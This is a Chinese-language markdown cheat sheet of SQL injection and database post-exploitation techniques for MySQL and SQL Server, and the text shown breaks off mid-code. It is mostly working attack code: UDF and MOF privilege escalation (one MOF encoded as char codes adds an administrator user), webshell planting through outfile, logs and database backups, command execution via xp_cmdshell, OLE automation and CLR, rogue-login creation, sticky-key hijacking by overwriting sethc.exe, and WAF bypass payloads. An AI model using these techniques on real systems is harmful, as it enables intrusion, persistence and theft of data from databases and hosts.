- [SQL 注入](#sql-注入)
  - [MySql](#mysql)
    - [基础语句](#基础语句)
      - [数据连接情况](#数据连接情况)
      - [xx 库中所有字段名带 pass|pwd 的表](#xx-库中所有字段名带-passpwd-的表)
      - [获取正在执行的sql语句](#获取正在执行的sql语句)
    - [提权](#提权)
      - [UDF(User Defined Function)提权](#udfuser-defined-function提权)
    - [Getshell](#getshell)
      - [直接写文件Getwebshell](#直接写文件getwebshell)
      - [日志general\_log Getshell](#日志general_log-getshell)
      - [慢日志slow\_query\_logGetshell](#慢日志slow_query_loggetshell)
    - [mysql本地任意文件读取](#mysql本地任意文件读取)
      - [条件](#条件)
      - [原理](#原理)
        - [LOAD DATA INFILE](#load-data-infile)
        - [认证过程](#认证过程)
      - [复现](#复现)
  - [WAF Bypass](#waf-bypass)
    - [mysql8](#mysql8)
      - [新增的表](#新增的表)
        - [information\_schema.TABLESPACES\_EXTENSIONS](#information_schematablespaces_extensions)
      - [新增功能](#新增功能)
        - [table](#table)
  - [MSSQL Sql Server](#mssql-sql-server)
    - [基础查询](#基础查询)
      - [数据库确定](#数据库确定)
      - [版本](#版本)
      - [权限](#权限)
      - [站库分离](#站库分离)
      - [获取数据库](#获取数据库)
      - [数据表](#数据表)
      - [搜索含关键字的表,列](#搜索含关键字的表列)
      - [获取网站绝对路径](#获取网站绝对路径)
      - [查看xx数据库连接的IP](#查看xx数据库连接的ip)
      - [xx 库中所有字段名带 pass|pwd 的表](#xx-库中所有字段名带-passpwd-的表-1)
    - [GetWebShell](#getwebshell)
      - [存储过程写文件](#存储过程写文件)
        - [利用条件](#利用条件)
      - [差异备份GetShell](#差异备份getshell)
      - [日志备份GetShell](#日志备份getshell)
    - [进阶利用](#进阶利用)
      - [xp\_dirtree](#xp_dirtree)
      - [sp\_oacreate](#sp_oacreate)
      - [xp\_cmdshell](#xp_cmdshell)
      - [Ole automation procedures](#ole-automation-procedures)
      - [ap\_addlogin添加用户](#ap_addlogin添加用户)
      - [xp\_regwrite劫持粘滞键](#xp_regwrite劫持粘滞键)
      - [CLR执行命令](#clr执行命令)
        - [创建sql文件](#创建sql文件)
        - [C#代码](#c代码)
        - [获取sql语句](#获取sql语句)
        - [开启CLR配置](#开启clr配置)
        - [导入程序集](#导入程序集)
        - [创建存储过程](#创建存储过程)
        - [执行命令](#执行命令)
      - [Agent Job代理作业](#agent-job代理作业)
      - [沙盒执行命令](#沙盒执行命令)
        - [利用条件](#利用条件-1)
    - [Some Tricks](#some-tricks)
      - [DNS带外](#dns带外)
        - [fn\_xe\_file\_target\_read\_file()](#fn_xe_file_target_read_file)
        - [fn\_get\_audit\_file()](#fn_get_audit_file)
        - [fn\_trace\_gettable()](#fn_trace_gettable)
      - [替换报错表达式](#替换报错表达式)
      - [获取存储过程执行结果,查询配置是否开启](#获取存储过程执行结果查询配置是否开启)
      - [格式化数据](#格式化数据)
      - [for json](#for-json)
      - [读取本地文件](#读取本地文件)
        - [OpenRowset()](#openrowset)
      - [爆出当前SQL语句](#爆出当前sql语句)
    - [BypassWAF](#bypasswaf)
  - [Postgresql利用](#postgresql利用)
    - [读文件](#读文件)
    - [写文件](#写文件)
    - [命令执行](#命令执行)
      - [编程语言扩展](#编程语言扩展)
      - [低于8.2版本以下](#低于82版本以下)
      - [大于8.2版本](#大于82版本)
    - [DNS外带](#dns外带)
    - [CVE-2019-9193](#cve-2019-9193)
        - [利用条件](#利用条件-2)
    - [CVE-2018-1058](#cve-2018-1058)
  - [修复方案](#修复方案)
    - [使用预编译](#使用预编译)
      - [MyBatis](#mybatis)
      - [orderby](#orderby)
      - [模糊查询](#模糊查询)
    - [强制转换类型](#强制转换类型)
    - [黑(白)名单](#黑白名单)
  - [参考](#参考)

# SQL 注入
## MySql
### 基础语句
#### 数据连接情况
```sql
show processlist;
```
#### xx 库中所有字段名带 pass|pwd 的表
```sql
select distinct table_name from information_schema.columns where table_schema="xx" and column_name like "%pass%" or column_name like "%pwd%"
```
#### 获取正在执行的sql语句
使用information.schema.processlist 表读取正在执行的sql语句，从而得到表名与列名.
### 提权
#### UDF(User Defined Function)提权
**利用条件:**
1. secure-file-priv 不为NULL,查询语句 `show global variables like '%secure%';存在\lib\plugin目录.
2. mysql高权运行.
**步骤:**
1. 查询secure-file-priv是否为null,`show global variables like '%secure%';`

2. 确定mysql版本来确定要使用的udf版本(x64,x86) `show variables like "%version%";`

3. ```mysql
   use mysql;
   set @my_udf_a=concat('',dll的16进制);//将dll以16进制赋值给一个变量
   create table my_udf_data(data LONGBLOB);//创建表
   insert into my_udf_data values("");update my_udf_data set data = @my_udf_a;//将存储dll的的变量插入表中
   show variables like '%plugin%';//查看导出目录
   select data from my_udf_data into DUMPFILE '%plugin%/udftest.dll';//导出dll
   create function sys_eval returns string soname 'udftest.dll';//从dll中创建函数
   select sys_eval('whoami');//
   ```
**Tips:**
1. 4.1以前随意注册,无限制.
2. 在4.1到5之后创建函数时,不能包含`\`和`/`.所以需要释放到system32目录中.
3. 5.1之后需要导出到指定的插件目录,即`%plugin%`变量的位置,默认文件夹不存在,需要手动创建(利用NTFS流).
#### MOF提权
> mof是windows系统的一个文件（在c:/windows/system32/wbem/mof/nullevt.mof）叫做"托管对象格式"其作用是每隔五秒就会去监控进程创建和死亡。有了mysql的root权限了以后，然后使用root权限去执行我们上传的mof。隔了一定时间以后这个mof就会被执行，这个mof当中有一段是vbs脚本，这个vbs大多数的是cmd的添加管理员用户的命令。

**利用条件:**
1. secure-file-priv 为空.
2. mysql高权运行.
##### 步骤
1. 
   创建mof文件
   ```vb
   pace("\.rootsubscription")
   
   instance of **EventFilter as $EventFilter{    EventNamespace = "RootCimv2";    Name  = "filtP2";    Query = "Select * From **InstanceModificationEvent "
               "Where TargetInstance Isa "Win32_LocalTime" "
               "And TargetInstance.Second = 5";
       QueryLanguage = "WQL";
   };
   
   instance of ActiveScriptEventConsumer as $Consumer
   {
       Name = "consPCSV2";
       ScriptingEngine = "JScript";
       ScriptText =
       "var WSH = new ActiveXObject("WScript.Shell")nWSH.run("net.exe user admin admin /add")";
   };
   
   instance of __FilterToConsumerBinding
   {
       Consumer   = $Consumer;
       Filter = $EventFilter;
   };
   ```
2. 手动上传到目标导入`select load_file('mof file') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mof`到Mof目录.
   或者使用select 写入
   ```mysql
   select char(35,112,114,97,103,109,97,32,110,97,109,101,115,112,97,99,101,40,34,92,92,92,92,46,92,92,114,111,111,116,92,92,115,117,98,115,99,114,105,112,116,105,111,110,34,41,13,10,13,10,105,110,115,116,97,110,99,101,32,111,102,32,95,95,69,118,101,110,116,70,105,108,116,101,114,32,97,115,32,36,69,118,101,110,116,70,105,108,116,101,114,13,10,123,13,10,32,32,32,32,69,118,101,110,116,78,97,109,101,115,112,97,99,101,32,61,32,34,82,111,111,116,92,92,67,105,109,118,50,34,59,13,10,32,32,32,32,78,97,109,101,32,32,61,32,34,102,105,108,116,80,50,34,59,13,10,32,32,32,32,81,117,101,114,121,32,61,32,34,83,101,108,101,99,116,32,42,32,70,114,111,109,32,95,95,73,110,115,116,97,110,99,101,77,111,100,105,102,105,99,97,116,105,111,110,69,118,101,110,116,32,34,13,10,32,32,32,32,32,32,32,32,32,32,32,32,34,87,104,101,114,101,32,84,97,114,103,101,116,73,110,115,116,97,110,99,101,32,73,115,97,32,92,34,87,105,110,51,50,95,76,111,99,97,108,84,105,109,101,92,34,32,34,13,10,32,32,32,32,32,32,32,32,32,32,32,32,34,65,110,100,32,84,97,114,103,101,116,73,110,115,116,97,110,99,101,46,83,101,99,111,110,100,32,61,32,53,34,59,13,10,32,32,32,32,81,117,101,114,121,76,97,110,103,117,97,103,101,32,61,32,34,87,81,76,34,59,13,10,125,59,13,10,13,10,105,110,115,116,97,110,99,101,32,111,102,32,65,99,116,105,118,101,83,99,114,105,112,116,69,118,101,110,116,67,111,110,115,117,109,101,114,32,97,115,32,36,67,111,110,115,117,109,101,114,13,10,123,13,10,32,32,32,32,78,97,109,101,32,61,32,34,99,111,110,115,80,67,83,86,50,34,59,13,10,32,32,32,32,83,99,114,105,112,116,105,110,103,69,110,103,105,110,101,32,61,32,34,74,83,99,114,105,112,116,34,59,13,10,32,32,32,32,83,99,114,105,112,116,84,101,120,116,32,61,13,10,32,32,32,32,34,118,97,114,32,87,83,72,32,61,32,110,101,119,32,65,99,116,105,118,101,88,79,98,106,101,99,116,40,92,34,87,83,99,114,105,112,116,46,83,104,101,108,108,92,34,41,92,110,87,83,72,46,114,117,110,40,92,34,110,101,116,46,101,120,101,32,108,111,99,97,108,103,114,111,117,112,32,97,100,109,105,110,105,115,116,114,97,116,111,114,115,32,97,100,109,105,110,32,47,97,100,100,92,34,41,34,59,13,10,32,125,59,13,10,13,10,105,110,115,116,97,110,99,101,32,111,102,32,95,95,70,105,108,116,101,114,84,111,67,111,110,115,117,109,101,114,66,105,110,100,105,110,103,13,10,123,13,10,32,32,32,32,67,111,110,115,117,109,101,114,32,32,32,61,32,36,67,111,110,115,117,109,101,114,59,13,10,32,32,32,32,70,105,108,116,101,114,32,61,32,36,69,118,101,110,116,70,105,108,116,101,114,59,13,10,125,59) into dumpfile 'c:/Windows/system32/wbem/mof/nullevt.mof';
   ```
### Getshell
#### 直接写文件Getwebshell
**利用条件:**
- secure-file-priv参数为空或者为网站根路径
- 知道网站的绝对路径
**步骤:**
```mysql
select 'phpinfo();' into outfile 'c:/www/webshell.php'
```
#### 日志general_log Getshell
**利用条件:**
* 注入点支持堆叠语句或者能独立执行sql语句(phpmyadmin...)
* 知道网站绝对路径
**步骤:**
```mysql
set global general_log='on';//开启日志记录
SET global general_log_file='c:/www/webshell.php';//设置日志路径为web目录
SELECT 'phpinfo();';//该语句会被记录到日志中从而写入webshell
```
#### 慢日志slow_query_logGetshell
MySQL的慢查询日志是MySQL提供的一种日志记录,它用来记录在MySQL中响应时间超过阀值的语句,具体指运行时间超过long_query_time值的SQL,则会被记录到慢查询日志中.long_query_time的默认值为10,意思是运行10S以上的语句.默认情况下,Mysql数据库并不启动慢查询日志,需要我们手动来设置这个参数.
**利用条件:**
* 注入点支持堆叠语句或者能独立执行sql语句(phpmyadmin...)
* 知道网站绝对路径

**步骤:**

```mysql
set global slow_query_log=1;//开启慢查询
set global slow_query_log_file='c:/www/webshell.php';//设置日志路径为web目录
SELECT "phpinfo();"  or sleep(11);//使用sleep(11)使该语句记录到日志
```
### mysql本地任意文件读取
#### 条件
> * 允许使用load data local  
> 可通过标志位确定是否开启  
> 
> * secure_file_priv值为空  
> 
>> 1. 为空表示无限制
>> 2. null表示不允许导入导出(默认值)  
>> 3. 指定文件夹,表示只能导入导出某个文件夹
#### 原理
##### LOAD DATA INFILE
和select ... into outfile相反,load data infile [filename] into tables [table]用于把文件中的内容读取到表中  
加上local关键字即load data local infile则是读取客户端本地的文件内容到表中  

##### 认证过程
1. 服务端可以要求客户端读取有可读权限的任何文件
2. 客户端读取文件的路径并不是从客户端指定的，而是服务端制定的
3. 服务端可以在任何查询语句后回复文件传输请求
> * 认证成功
> * 发送查询语句
> * 回复文件传输请求

客户端连接的过程中由服务端确定是否认证成功,所以随便输入一个用户密码,恶意服务端只要回复认证成功即可  
然后客户端就会发生查询语句来初始化信息,如查询版本号  
  
而恶意服务器这时候直接向客户端返回响应文件传输请求来索要某个文件内容  
  
客户端会直接返回相应文件内容
  
#### 复现
[恶意服务器脚本](https://github.com/Gifts/Rogue-MySql-Server)  
只要根据官方文档模拟字段发包即可    
文件内容在脚本内指定即可  
    
客户端使用任意用户密码连接恶意服务器:
  
恶意服务器均为返回认证成功,并在初始化查询后响应文件传输请求  
恶意服务器下查看mysql.log文件得到文件内容:
  
      
## WAF Bypass
1. and -> %26(&)
2. , -> join
3. mysql版本大于5.6.x新增加的两个表**innodb_index_stats**和**innodb_table_stats**,主要是记录的最近数据库的变动记录,可用于代替informaiton_schema查询库名和表名.  
```sql
    select database_name from mysql.innodb_table_stats group by database_name;
    select table_name from mysql.innodb_table_stats where database_name=database();
```
4. 无列名注入,将目标字段与已知值联合查询,利用别名查询字段数据
```sql
    select group_concat(`2`) from (select 1,2 union select * from user)x 
```
5. 无列名注入,利用子查询一个字段一个字段进行大小比较进行布尔查询
```sql
    select ((select 1,0)>(select * from user limit 0,1))
```
6. 空白字符:09 0A 0B 0D A0 20
7. \`:select\`version\`();绕过空格和正则.
8. 点(.):在关键字前加点,`select-id-1+3.from qs_admins;`
9. @: `select@^1.from admins;`
### mysql8
#### 新增的表
##### information_schema.TABLESPACES_EXTENSIONS
它直接存储了数据库和数据表
#### 新增功能
##### table
https://mp.weixin.qq.com/s/R2Sud4uMSTV9egt0Lub36Q
## MSSQL Sql Server
### 基础查询
#### 数据库确定
`select 1/iif((select count(*) from sysobjects )>0,1,0)`
#### 版本
`select @@version`
`select 1/iif(SUBSTRING(@@version,22,4)='2014',1,0)`
#### 权限
`select IS_SRVROLEMEMBER('sysadmin'));--`
#### 站库分离
`select @@SERVERNAME`
`select host_name()`
#### 获取数据库
当前数据库: `select db_name()`
获取全部数据库:`select name from master..sysdatabases for xml path`
#### 数据表
获取用户表:`select * from sysobjects where xtype='U'`
获取所以用户表`select name from sysobjects where xtype='U' from xml path`
#### 搜索含关键字的表,列
`select table_name from information_schema.tables where table_name like '%pass%'`
`select column_name,table_name from information_schema.columns where column_name like '%pass%'`
#### 获取网站绝对路径
```cmd
高权限启动2005或者2008
C:\Windows\system32\inetsrv\metabase.xml        #iis6
C:\Windows\System32\inetsrv\config\applicationHost.config       #iis7

DIR命令寻找路径
ir/s/b c:\index.aspx
/s      #列出所有子目录下的文件和文件夹
/b      #只列出路径和文件名，别的属性全部不显示

循环盘符
for %i in (c d e f g h i j k l m n o p q r s t u v w x v z) do @(dir/s/b %i:\sql.aspx)
```
#### 查看xx数据库连接的IP
```sql
select DISTINCT client_net_address,local_net_address from sys.dm_exec_connections where Session_id IN (select session_id from sys.dm_exec_Sessions where host_name IN (SELECT hostname FROM master.dbo.sysprocesses WHERE DB_NAME(dbid) = 'xx'));
```

#### xx 库中所有字段名带 pass|pwd 的表

```sql
select [name] from [xx].[dbo].sysobjects where id in(select id from [xx].[dbo].syscolumns Where name like '%pass%' or name like '%pwd%')
```
### GetWebShell

#### 存储过程写文件

##### 利用条件

- 拥有DBA权限
- 知道的网站绝对路径

```mysql
declare @o int, @f int, @t int, @ret int
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o, 'createtextfile', @f out, 'C:\xxxx\www\test.asp', 1
exec @ret = sp_oamethod @f, 'writeline', NULL,'<%execute(request("a"))%>'
```

#### 差异备份GetShell
```sql
backup database web to disk = 'c:\www\index.bak'
create table test(cmd image)
insert into test(cmd) values (0x3C25657865637574652872657175657374282261222929253E)
backup database web to disk = 'c:\www\index.asp' with DIFFERENTIAL,FORMAT
```
#### 日志备份GetShell
```sql
alter database web set RECOVERY FULL
create table cmd (a image)
backup database web to disk = 'c:\\www\a.sql'
backup log web to disk = 'c:\www\index1.sql' with init
insert into cmd(a) values('<%execute(request("go"))%>')
backup log web to disk = 'c:\www\shell.asp'
```

### 进阶利用
#### xp_dirtree
xp_dirtree有三个参数，
要列的目录
是否要列出子目录下的所有文件和文件夹，默认为0，如果不需要设置为1
是否需要列出文件，默认为不列，如果需要列文件设置为1

```sql
xp_dirtree 'c:\', 1, 1      #列出当前目录下所有的文件和文件夹
```
#### sp_oacreate
sp_oacreate系统存储过程可以用于对文件删除、复制、移动等操作，还可以配合sp_oamethod系统存储过程调用系统wscript.shell来执行系统命令。sp_oacreate和sp_oamethod两个过程分别用来创建和执行脚本语言。
```sql
#判断sp_oacreate状态
select count(*) from master.dbo.sysobjects where xtype='x' and name='SP_OACREATE'
#开启sp_oacreate  
exec sp_configure 'show advanced options', 1;RECONFIGURE
exec sp_configure 'Ole Automation Procedures',1;RECONFIGURE
```
```sql
#执行命令
declare @o int;
exec sp_oacreate 'wscript.shell',@o out;
exec sp_oamethod @o,'run',null,'cmd /c mkdir c:\temp';
exec sp_oamethod @o,'run',null,'cmd /c "net user" > c:\temp\user.txt';
create table cmd_output (output text);
BULK INSERT cmd_output FROM 'c:\temp\user.txt' WITH (FIELDTERMINATOR='n',ROWTERMINATOR = 'nn')      -- 括号里面两个参数是行和列的分隔符，随便写就行
select * from cmd_output
```
#### xp_cmdshell

**利用条件:**

* 拥有DBA权限 `select is_srvrolemember('sysadmin');`

```sql
exec sp_configure 'show advanced options',1  
reconfigure;exec sp_configure 'xp_cmdshell',1;
reconfigure
```
被删除后，重新添加xp``_cmdshell存储过程语句
```sql
EXEC sp_addextendedproc xp_cmdshell,@dllname ='xplog70.dll'declare @o int;
sp_addextendedproc 'xp_cmdshell', 'xpsql70.dll';
```
#### Ole automation procedures
**利用条件:**

- 拥有DBA权限

1. 开启Ole automation procedures

```sql
EXEC sp_configure 'show advanced options', 1; RECONFIGURE WITH OVERRIDE; EXEC sp_configure 'Ole Automation Procedures', 1;RECONFIGURE WITH OVERRIDE;EXEC sp_configure 'show advanced options', 0;
```

2. 命令执行

```sql

# wscript.shell组件
declare @luan int,@exec int,@text int,@str varchar(8000)
exec sp_oacreate 'wscript.shell',@luan output
exec sp_oamethod @luan,'exec',@exec output,'C:\\Windows\\System32\\cmd.exe /c whoami'
exec sp_oamethod @exec, 'StdOut', @text out
exec sp_oamethod @text, 'readall', @str out
select @str;

# com组件
declare @luan int,@exec int,@text int,@str varchar(8000)
exec sp_oacreate '{72C24DD5-D70A-438B-8A42-98424B88AFB8}',@luan output
exec sp_oamethod @luan,'exec',@exec output,'C:\\Windows\\System32\\cmd.exe /c whoami'
exec sp_oamethod @exec, 'StdOut', @text out
exec sp_oamethod @text, 'readall', @str out
select @str;
```
#### ap_addlogin添加用户
```sql
EXEC sp_addlogin 'Admin', 'test123', 'master'
# 用户Admin，密码test123，默认数据库master
```
#### xp_regwrite劫持粘滞键
```sql
#sp_oacreate复制文件
exec sp_configure 'show advanced options', 1;RECONFIGURE
exec sp_configure 'Ole Automation Procedures',1;RECONFIGURE
declare @o int
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o, 'copyfile',null,'c:\windows\system32\cmd.exe' ,'c:\windows\system32\sethc.exe';
exec xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Image File Execution Options\sethc.EXE','Debugger','REG_SZ','c:\windows\system32\cmd.exe';
```
#### CLR执行命令
SQLServer 2005以后支持调用CLR(公告语言运行时)的存储过程,即支持在sqlserver中运行.net代码.
##### 创建sql文件
勾选创建sql文件,选3.5Net 兼容性更好


##### C#代码
```c
using System;
using System.Data;
using System.Data.SqlClient;
using System.Data.SqlTypes;
using System.Diagnostics;
using System.Text;
using Microsoft.SqlServer.Server;

public partial class StoredProcedures
{
    [Microsoft.SqlServer.Server.SqlProcedure]
    public static void Runexec (string cmd)
    {
        // 在此处放置代码
        SqlContext.Pipe.Send("Running command");
        SqlContext.Pipe.Send(Runcommand("cmd.exe", " /c " + cmd));
    }
    public static string Runcommand(string bin,string command)
    {
        //启动一个进程
        var process = new Process();
        process.StartInfo.FileName = bin;
        if (!string.IsNullOrEmpty(command))
        {
            //进程名称
            process.StartInfo.Arguments = command;
        }
        //设置进程属性
        process.StartInfo.CreateNoWindow = true;//无窗口
        process.StartInfo.WindowStyle = ProcessWindowStyle.Hidden;
        process.StartInfo.UseShellExecute = false;//通过将此属性设置为， false 可以重定向输入、输出和错误流
        process.StartInfo.RedirectStandardError = true;
        process.StartInfo.RedirectStandardOutput = true;
        var stdOutput = new StringBuilder();
        process.OutputDataReceived += (sender, args) => stdOutput.AppendLine(args.Data);
        string stdError = null;
        try
        {
            process.Start();
